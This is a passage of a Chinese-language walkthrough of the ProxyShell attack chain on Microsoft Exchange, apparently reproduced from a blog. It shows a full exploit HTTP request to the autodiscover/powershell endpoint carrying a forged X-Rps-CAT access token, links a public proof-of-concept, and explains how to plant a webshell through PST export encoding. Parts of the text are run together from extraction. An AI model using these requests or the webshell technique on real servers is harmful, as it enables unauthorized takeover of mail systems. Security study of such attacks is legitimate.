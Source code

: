           *   *   *   *   * 
    
    
    
    X-Requesttype: ConnectX-Clientinfo: {2F94A2BF-A2E6-4CCCC-BF98-B5F22C542226}X-Clientapplication: Outlook/15.0.4815.1002X-Requestid: {C715155F-2BE8-44E0-BD34-2960067874C8}:2Content-Type: application/mapi-http

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093223.png)

  

3、但是我们需要通过Powershell去进行下一步攻击  

  

所以我们需要利用sid与username去计算CommonAccessToken，逆向推导比较复杂，exp的脚本中也给出了参考  

  * 

    
    
    https://github.com/dmaasland/proxyshell-poc

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093224.png)

  

将生成的token通过X-CommonAccessToken进行利用  

    
          *   *   *   *   *   * 
    
    
    
    GET https://192.168.114.12/autodiscover/autodiscover.json?a=ktacz@ygjnt.jzk/powershell/?X-Rps-CAT=VgEAVAdXaW5kb3dzQwBBCEtlcmJlcm9zTBVhZG1pbmlzdHJhdG9yQGtkYy5jb21VLFMtMS01LTIxLTU1OTAwNjY3NC0xMjIwNDAyMjE1LTE3MzUyODY4NjEtNTAwRwEAAAAHAAAADFMtMS01LTMyLTU0NEUAAAAA HTTP/1.1Host: 192.168.114.12Accept-Encoding: identityCookie: Email=autodiscover/autodiscover.json?a=ktacz@ygjnt.jzkContent-Type: application/soap+xml;charset=UTF-8Content-Length: 0

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093226.png)

  

4、通过WsMan协议，通过SOAP请求Exchange的Powershell接口发送指令  exp的作者也给出了代码  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093227.png)

  

调用wsman  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093228.png)

  

5、最后就是写入webshell，pst在导出时其使用的加密为类似异或加密模式，也就是说加密在加密就变成了明文，那么只要先使用其加密方法加密一遍我们要写入的webshell，就可以在导出时，获得明文，从而获取webshell
